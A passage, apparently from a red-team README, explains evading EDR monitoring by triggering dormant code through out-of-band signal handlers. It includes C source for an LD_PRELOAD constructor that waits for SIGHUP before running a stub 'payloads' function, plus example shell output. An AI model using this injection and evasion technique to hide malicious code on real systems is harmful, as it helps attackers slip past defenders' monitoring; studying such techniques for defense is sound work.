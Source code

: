 Depending on the circumstances, to evade EDRs we can use non-linear invocation of code. The general task is to break the EDR consistent "story" of target execution transparency with out of band interrupts. Since interrupts arrive from the outside of the process many defenses cannot trace the code paths. It's an unconditional jump to the handler. 

Sometimes, it is non-blocking or non-instrumentable, as we can see below. Triggering code from an otherwise dormant code branch we can achieve deeper evasion. 


##### 0x4:A Direct external signals / handlers e.g. SIGHUP, SIGUSR1/2


File: `intrp.c`:

```c
void before_main(void) __attribute__((constructor));
void before_main(void)
{
    printf("Before main()\n");
    setSigHandler(500000);
}
void setSigHandler(int sleep_interval){

    signal(SIGHUP, handleSigHup);
    for (;;) {
        if (gotint)
            break;
        usleep(sleep_interval);
    }
    doWork();

}
void handleSigHup(int signal) { gotint = 1; }
void doWork(void){
    printf("Executing payloads here ...\n");
}

```

Example:

```sh
$LD_PRELOAD=lib/libinterrupt.so /bin/ls
```


```sh
Before main()
Setting SIGHUP Signal handler ...
PPID: 23305 PID: 126946 

...
<out of band KILL -HUP here>
...

Signal handler got signal ... 
Executing payloads here ...

bin  ext  lib  Log.md  Makefile  README.md  run.sh  src  test.sh
```
